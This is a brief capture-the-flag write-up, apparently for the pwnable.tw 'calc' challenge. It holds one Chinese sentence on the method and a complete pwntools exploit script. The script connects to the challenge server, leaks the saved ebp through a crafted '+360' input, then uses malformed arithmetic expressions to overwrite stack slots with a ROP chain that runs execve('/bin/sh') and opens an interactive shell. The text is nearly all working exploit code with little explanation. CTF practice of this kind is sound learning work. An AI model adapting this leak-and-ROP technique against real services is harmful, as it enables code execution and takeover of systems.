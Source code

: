 所以利用的步骤就是先泄露ebp的值，然后利用畸形表达式通过加加减减布置ROP链，然后getshell

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
io = remote("chall.pwnable.tw",10100)

# /bin/sh and gadget
a = int('/bin'[::-1].encode("hex"),16)
b = int('/sh'[::-1].encode("hex"),16)
pop_eax = 0x0805c34b
pop_edx_ecx_ebx = 0x080701d0
int_80 = 0x08049a21

# leak ebp
io.recv()
io.sendline("+360")
ebp = int(io.recv())-0x20
binsh_addr = ebp+8*4

# attack
ROP_chain = [pop_eax,11,pop_edx_ecx_ebx,0,0,binsh_addr,int_80,a,b]
for i in range(361,370):
	num = i - 361
	io.sendline("+"+str(i))
	tmp = int(io.recvline())
	if tmp<ROP_chain[num]:
		io.sendline("+"+str(i)+"+"+str(ROP_chain[num]-tmp))
	else:
		io.sendline("+"+str(i)+"-"+str(tmp-ROP_chain[num]))
	io.recvline()

io.sendline()
io.interactive()
```
